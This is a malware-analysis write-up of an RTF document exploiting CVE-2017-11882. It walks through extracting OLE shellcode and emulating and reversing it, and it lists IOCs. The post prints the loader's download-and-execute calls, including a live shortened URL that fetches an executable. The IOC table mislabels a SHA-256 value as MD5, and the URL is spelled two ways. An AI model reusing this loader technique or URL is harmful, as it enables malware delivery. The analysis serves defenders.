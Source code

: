 ```yaml
---
title: RTF Exploit
date: 2025-08-30
categories:
  - Malware Analysis
  - Reports
tags:
  - cve-2017-11882
toc: "true"
---
```

The suspicious sample under analysis is an **RTF document** designed to embed and execute malicious OLE objects. As with any document-based malware, the first step is to calculate its hashes and collect metadata for identification.

| Field         | Value                                                            |
| ------------- | ---------------------------------------------------------------- |
| **File Type** | RTF Document                                                     |
| **MD5**       | 2fd300bd01ea3d00ea59d4e1d47056a0                                 |
| **SHA-1**     | d8747407679055deee5bafaac281bdac52274da2                         |
| **SHA-256**   | 2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762 |
| **File Size** | 1.02 MB (1065166 bytes)                                          |

Once submitted to **VirusTotal**, the sample showed a high detection ratio, flagged by multiple antivirus engines as containing an embedded OLE exploit.

![[assets/img/posts/malware/rtf-malware/virustotal.png]]

Static inspection confirmed that the RTF contained at least one **suspicious OLE object**. This hinted that the exploit would likely rely on embedded shellcode delivered via OLE streams.

### Extracting the OLE Object

We used **rtfobj.py** to scan the malicious RTF document and extract any embedded OLE streams:

```cmd
C:\Users\vboxuser\Desktop>python "C:\Users\vboxuser\Desktop\Tools\Documents
oletools-0.60.2\oletools\rtfobj.py" 
"C:\Users\vboxuser\Desktop\Master\Tarea3
2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf" 
-s 0 -d C:\Users\vboxuser\Desktop\Master\Tarea3
```

The output revealed a malformed OLE object at offset `0x000FC3E7`, which was dumped as:

```
...rtf_object_000FC3E7.raw (md5: 2fe51e42ac2a4a52d1855e21620e9c6f)
```

![rtfobj.png](/assets/img/posts/malware/rtf-malware/rtfobj.png)

One check to **VirusTotal**, the sample showed a high detection ratio, flagged by multiple antivirus engines as containing an exploit for a 2017 CVE.

![[virustotal-raw.png]]

| Field         | Value                                                            |
| ------------- | ---------------------------------------------------------------- |
| **File Type** | Data                                                             |
| **MD5**       | 2fe51e42ac2a4a52d1855e21620e9c6f                                 |
| **SHA-1**     | af8eda0e5881952b5828d143de1bd45ced8f8717                         |
| **SHA-256**   | 280a7cce75f5ee71a2ff025efdc059a7d85a4de13292aa342f71e186876a93fb |
| **File Size** | 1.34 KB (1372 bytes)                                             |
## Shellcode Analysis with `scdbg`

The extracted OLE object contained embedded shellcode. To better understand its behavior, we emulated the payload using **scdbg**.

Execution began at offset `0x7C` (VA `0x40107C`) with the following instructions:

```
40107C   42      inc edx
40107D   19F9    sbb ecx,edi
40107F   0BE1    or esp,ecx
401081   F8      clc
401082   793B    jns 0x4010BF
```

This sequence rearranges registers in preparation for deobfuscation.

During execution, the shellcode dynamically resolved several Windows APIs, a common tactic to avoid static detection. The following calls were observed:

- `GetProcAddress(ExpandEnvironmentStringsW)`
- `ExpandEnvironmentStringsW(%PUBLIC%\908.exe, dst=12fbd0, sz=104)`
- `LoadLibraryW("UrlMon")`
- `GetProcAddress(URLDownloadToFileW)`
- `URLDownloadToFileW("http://bit.ly/34vzFlU", "C:\Users\Public\908.exe")`
- `LoadLibraryW("oleaut32")` and `GetProcAddress(SysAllocString)`

![scdbg.png](/assets/img/posts/malware/rtf-malware/scdbg.png)

This confirms the shellcode’s functionality: it constructs a destination path in `%PUBLIC%`, downloads a remote executable from a shortened URL, and prepares it for execution.

## Reversing the Shellcode

To deepen the analysis, we manually reversed the shellcode to better understand its structure and techniques. As expected, the code follows the typical pattern of most download-and-execute shellcodes, but with some tricks to hinder analysis: it is position-independent and padded with junk instructions.

When loaded into **IDA**, some sections were misinterpreted as code or data. To fix this, we had to manually redefine certain areas, step through execution instruction by instruction, and set breakpoints until the flow became clear.

The shellcode can be divided into three main sections:

1. **Garbage padding** (`0x0000–0x007B` and `0x010E–0x02BB`)  
    Random bytes, `int 3`, `hlt`, and assorted `db`/`dw` instructions that IDA failed to properly disassemble. These do not execute if the **EIP** lands correctly.
    
2. **Executable junk & jump** (`0x007C–0x0108`)  
    Useless obfuscation loops and a final `jmp 0x02BC` redirecting execution to the real payload.
    
3. **Payload** (`0x02BC–0x0558`)  
    The real malicious logic: stack setup, manual API resolution, downloading an executable, and launching it in the background.
    

![peb.png](/assets/img/posts/malware/rtf-malware/peb.png)

Once the flow was reconstructed, we saw the shellcode walking the **PEB (`fs:[30h]`)** to locate `kernel32.dll`. From there, it invoked a custom implementation of `GetProcAddress` to resolve its APIs:

```
LoadLibraryW
ExpandEnvironmentStringsW
UrlDownloadToFileW
WinExec
ExitProcess
```

![sub498.png](/assets/img/posts/malware/rtf-malware/sub498.png)

The function responsible for string comparisons (`sub_498`) performed case-insensitive matching in wide-char, converting characters on the fly with a simple `xor ax, 0x20` whenever the character was between `'A'` and `'Z'`. This allowed the shellcode to reliably resolve function names without depending on exact casing.

Once the API resolution was complete, execution moved into the **download phase**. First, the destination path was constructed using `ExpandEnvironmentStringsW` as `%PUBLIC%\908.exe`. Next, the URL (`hxxp://bit.ly/34vzFU`) was pushed onto the stack in fragmented form, hidden across multiple `push` instructions. Finally, the shellcode invoked `UrlDownloadToFileW(NULL, url, destino, 0, NULL)` to retrieve the binary, proceeding only if the call returned `S_OK`.

If the download succeeded, the **execution phase** began: the binary was launched silently with `WinExec(destino, SW_HIDE)`, and the shellcode immediately terminated the current process with `ExitProcess(0)`.

Overall, more than half of the shellcode turned out to be padding and obfuscation, while the actual functionality resided in a compact position-independent loader. Its role was simple but effective: dynamically resolve APIs, construct the target path, download a remote executable, and execute it quietly before exiting. By setting the instruction pointer directly to `0x02BC`, analysts can skip all the junk code and observe the core payload in action. The main difficulty during reversing was correcting IDA’s misinterpretations caused by the interleaving of junk instructions and data, which required manual adjustments to accurately follow the control flow.

## Indicators of Compromise (IOCs)

The following IOCs were extracted from the RTF malware sample:

| Type               | Value                                                                       |
| ------------------ | --------------------------------------------------------------------------- |
| **MD5 (RTF)**      | `2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762`          |
| **OLE Object MD5** | `2fe51e42ac2a4a52d1855e21620e9c6f`                                          |
| **Dropped File**   | `%PUBLIC%\908.exe`                                                          |
| **Malicious URL**  | `hxxp://bit.ly/34vzFU`                                                      |

